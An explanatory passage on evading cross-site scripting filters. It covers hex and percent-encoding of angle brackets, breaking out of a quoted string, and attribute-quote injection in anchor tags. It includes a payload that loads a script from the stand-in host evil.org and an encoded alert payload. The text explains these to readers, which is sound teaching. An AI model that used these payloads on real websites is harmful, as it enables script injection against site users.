

One of the most popular alternative character representations is HTML escaped encoding. In this system, the HEX value of the ASCII character is prefixed with the “%” character.

Consider a routine that removes the “<“ and “>“ special characters:
document.write(cleanSearchString('<>'));
The attacker now uses an alternative coding for the filtered characters, “\x3c” and “\x3e” respectively, and initialises their code with “’) +” to escape out of the routine.
') + '\x3cscript src=http://evil.org/malicious.js\x3e\x3c/script\x3e'
Consider a site that parses the content,
<a href="javascript:…">click-me</a>
and, after processing, becomes:
<a href="javascript:…" target="_blank">click-me</a>
Causing the URL to be opened in a new window.
However, if the attacker constructs his HREF as follows,
<a href="javascript:..." foo="bar>click-me</a>
it will be interpreted as:
<a href="javascript:..." foo="bar target="_blank">click-me</a>
causing the code to be executed in the same page, under the same DOM.
In cases where almost all special characters have are filtered from user supplied strings, attackers must encode the entire attack string.
Consider the following URL:
http://trusted.org/search.cgi?query=%26%7balert%28%27EVIL %27%29%7d%3b&apropos=pos2
The “%26%7balert%28%27EVIL%27%29%7d%3b” resolves to &{alert('EVIL')}; causing in this instance an unexpected JavaScript alert window to popup, with the text “EVIL”.